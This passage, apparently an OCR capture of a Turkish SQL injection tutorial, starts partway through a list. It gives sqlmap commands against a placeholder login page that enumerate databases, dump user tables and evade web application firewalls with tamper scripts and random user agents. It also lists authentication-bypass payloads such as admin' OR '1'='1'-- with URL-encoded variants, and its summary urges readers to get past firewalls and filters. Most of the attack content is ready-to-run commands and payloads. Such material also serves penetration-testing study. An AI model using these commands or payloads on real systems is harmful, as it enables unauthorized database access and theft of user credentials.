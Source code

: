 ```sql
✅ --dbs: Veri tabanı adlarını listeler.
```
🔹 2. Kullanıcıları Çekme
Eğer açık varsa, kullanıcı adlarını çekmek için:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dump
```
🔹 3. WAF Bypass (Güvenlik Duvarı Aşma)
Eğer güvenlik duvarı varsa, şu parametreler eklenebilir:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --random-agent --tamper=space2comment
```

```sql
✅ --random-agent: Rastgele User-Agent kullanarak tespit edilmesini zorlaştırır.
✅ --tamper=space2comment: WAF tarafından filtrelenen boşlukları yorum satırına çevirir.
```

4️⃣ Proxy Kullanarak SQLmap ile POST SQLi Testi
Bazı durumlarda, siteyi Burp Suite üzerinden proxy ile analiz etmek daha iyi olur.
Burp Suite'i açın ve proxy dinleme portunu ayarlayın (Örn: 8080).
Tarayıcı üzerinden giriş yapın ve POST isteğini Intercept edin.
POST isteğini kaydedin ve SQLmap kullanarak test edin:
bash
```bash
sqlmap -r request.txt --dbs
```
📌 Açıklama: request.txt dosyası Burp Suite’ten kaydedilen ham HTTP isteğini içerir.

5️⃣ POST SQL Injection Bypass Teknikleri
Eğer bazı filtreleme mekanizmaları varsa, şu yöntemler kullanılabilir:
🔹 1. Karakter Kaçırma (Encoding)
Bazı filtreleme sistemleri belirli karakterleri engelleyebilir. Bunları aşmak için:
URL Encoding: %27 (' yerine)
Hex Encoding: 0x61 (a yerine)
Base64 Encoding
Örnek:
plaintext
```sql
username=admin%27+OR+1%3D1+--
```

🔹 2. Inline Query Manipülasyonu
Bazı sistemler tırnakları engeller, bu yüzden şu yöntemlerle test edilebilir:
sql
```sql
username=admin' OR '1'='1'--
username=admin" OR "1"="1"--
username=admin') OR ('1'='1'--
```


📌 SONUÇ
✅ Manuel Testler: URL ve form girişlerinde SQL komutlarını deneyin.
✅ SQLmap ile Test: SQLmap kullanarak POST tabanlı SQLi açıklarını analiz edin.
✅ WAF ve Filtre Bypass: Encoding ve tamper tekniklerini kullanarak güvenlik duvarlarını aşın.
